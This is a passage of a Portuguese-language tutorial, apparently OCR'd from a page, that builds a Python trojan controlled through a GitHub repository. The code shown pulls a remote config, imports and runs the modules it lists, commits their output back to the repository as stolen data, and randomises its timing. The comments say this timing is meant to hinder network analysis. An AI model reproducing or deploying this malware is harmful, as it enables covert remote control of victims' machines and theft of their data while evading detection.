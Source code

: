 ```py
        self.repo = github_connect()
```

Esse código básico, conecta ao Github para receber informações dos seus repositórios, bem como lê o conteúdo de `paths` específicos de cada repositório.

Em seguida, criaremos o leitor do arquivo de configuração e o de `run()` de módulos:

```py
# Método get_config() carrega o json do arquivo de configuração no repositório remoto, para que o Trojan saiba o que executar
def get_config(self):
    config_json = get_file_contents('config', self.config_file, self.repo) # busca no repo
    config = json.loads(base64.b64decode(config_json))  # decode do json
    
    for task in config: # busca as tasks
        if task['module'] not in sys.modules:   # sys.modules é o aglomerado de todas as libs do python na máquina
            exec("import %s" % task['module'])  # caso o módulo não esteja presente nas "libs-padrão", é importado para dentro do trojan
                                                # essa funcionalidade do exec coloca o módulo dentro do objeto Trojan, 
                                                # podendo ser executado pelo sistema, agora
    return config   # retorna "a configuração"

# Método module_runner() executa o módulo e armazena o seu output usando store_module_result()
def module_runner(self, module):
    result = sys.modules[module].run() # executa a função run() do módulo
    self.store_module_result(result)
    
# Método store_module_result() armazena o resultado por commit
def store_module_result(self, data):
    message = datetime.now().isoformat()    # grava a data de captura dos dados (mensagem do commit)
    remote_path = f'data/{self.id}/{message}.data'  # coloca um formato de path para commit
    bin_data = bytes('%r' % data, 'utf-8')  # pega os dados desejados em bytes
    self.repo.create_file(remote_path, message, base64.b64encode(bin_data)) # commita no respositório       
    
def run(self):
    while True:
        config = self.get_config()
        # executa várias threads para cada módulo
        for task in config:
            thread = threading.Thread(target=self.module_runner, 
                                        args= (task['module'], ))
            thread.start()
            time.sleep(random.randint(1, 10)) # aleatoriza o tempo de execução de cada thread
            
        time.sleep(random.randint(30*60, 30*60*60)) # aleatoriza o tempo de atualização de dados
        # Esses randons ajudam a dificultar recorrência de tempo na análise de rede
```
